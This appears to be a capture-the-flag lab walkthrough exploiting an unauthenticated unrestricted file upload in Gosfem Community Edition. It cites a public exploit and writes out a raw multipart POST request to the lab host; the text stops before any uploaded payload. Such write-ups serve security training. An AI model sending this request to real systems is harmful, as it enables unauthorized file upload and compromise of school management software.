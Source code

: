 login

We begin by attempting to fingerprint the application and google search for "Gosfem Community Edition".

We find a download for it here: https://sourceforge.net/projects/gosfem/.

Downloading the source, we see that there are default credentials set which we are unable to authenticate with upon testing.

Our next attempt is to check for any public exploits. We discover the following public exploit: https://www.exploit-db.com/exploits/50587.

However the exploit doesn't state whether it requires authentication. We can manually confirm that the exploit does not require authentication by viewing the source code:

We see the following function causing the unrestricted file upload:

![](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/CTF3_image_4_IQ2D49KM.png)

After going through the references of this file, we discover:

![](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/CTF3_image_5_KF4SW2D9.png)

We see that at no point some ace of authorization/ authentication checks place.

Thus confirms that we do not need a session to exploit it (in contrast to what the public exploit indicates).

In order to establish our foothold, we must slightly adjust the raw HTTP request given in the exploit (wrong newlines, path).

The final request might look similar to this:

```c
POST /management/admin/examQuestion/create HTTP/1.1
Host: school.pg
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------183813756938980137172117669544
Content-Length: 1330
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1

-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="name"

test4
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="class_id"

2
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="subject_id"

5
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="timestamp"

2021-12-08
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="teacher_id"

1
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="file_type"

txt
```